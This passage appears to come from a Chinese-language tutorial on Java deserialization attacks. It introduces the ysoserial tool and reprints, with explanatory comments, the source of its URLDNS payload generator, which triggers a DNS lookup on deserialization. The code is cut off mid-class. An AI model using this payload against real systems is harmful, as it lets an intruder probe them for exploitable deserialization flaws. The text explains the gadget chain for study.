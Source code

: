 我们可以先了解一下集成了java反序列化各种gadget chains（利用链）的工具，[ysoserial](https://github.com/frohoff/ysoserial)

`URLDNS` 就是`ysoserial`中⼀个利⽤链的名字，但准确来说，这个其实不能称作“利⽤链”。因为其参数不是⼀个可以“利⽤”的命令，⽽仅为⼀个URL，其能触发的结果也不是命令执⾏，⽽是⼀次DNS请求。

- 我们先查看ysoserial中URLDNS.java的源码，理解一下它在干什么？

```java
// URLDNS.java
import java.io.IOException;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

//**  利用链顺序
	*   Gadget Chain:
  *     HashMap.readObject()
  *       HashMap.putVal()
  *         HashMap.hash()
  *           URL.hashCode()
  */

// 定义 URLDNS 类，用于生成反序列化漏洞利用的 payload
@SuppressWarnings({ "rawtypes", "unchecked" })
@PayloadTest(skip = "true")
@Dependencies()
@Authors({ Authors.GEBL })
public class URLDNS implements ObjectPayload<Object> {

    // 获取一个包含恶意 URL 的 HashMap 对象
    public Object getObject(final String url) throws Exception {

        // 使用自定义的 URLStreamHandler 来避免在创建 URL 实例时进行 DNS 解析
        URLStreamHandler handler = new SilentURLStreamHandler();

        // 创建一个 HashMap，用于存储恶意 URL
        HashMap ht = new HashMap();
        URL u = new URL(null, url, handler); // 创建一个 URL 对象，作为 HashMap 的键
        ht.put(u, url); // 将 URL 对象和一个字符串作为键值对放入 HashMap

        // 使用反射重置 URL 对象的 hashCode 字段
        // 这确保在反序列化时会重新计算 hashCode，从而触发 DNS 查询
        Reflections.setFieldValue(u, "hashCode", -1);

        return ht; // 返回包含恶意 URL 的 HashMap 对象
    }

    // 程序入口，用于运行 payload
    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(URLDNS.class, args);
    }

    // 自定义的 URLStreamHandler 类
    // 用于创建不执行 DNS 解析的 URL 对象
    static class SilentURLStreamHandler extends URLStreamHandler {
        // 重写 openConnection 方法，返回 null
        protected URLConnection openConnection(URL u) throws IOException {
```